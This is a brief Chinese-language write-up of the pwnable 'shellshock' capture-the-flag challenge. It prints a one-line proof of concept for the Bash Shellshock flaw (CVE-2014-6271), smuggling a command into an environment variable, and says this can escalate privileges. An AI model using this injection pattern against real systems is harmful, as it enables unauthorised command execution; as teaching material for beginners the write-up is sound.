 Nothing worth recording...

就是利用一个已发布的 `bash` 漏洞，CVE-2014-6271，POC 如下
```bash
shellshock@pwnable:~$ env x='() { :;}; echo HELLO' ./bash -c :
HELLO
```

即上面的 `env` 命令可以提权，这道题算是能帮小白知道 CVE 是什么已经如何利用。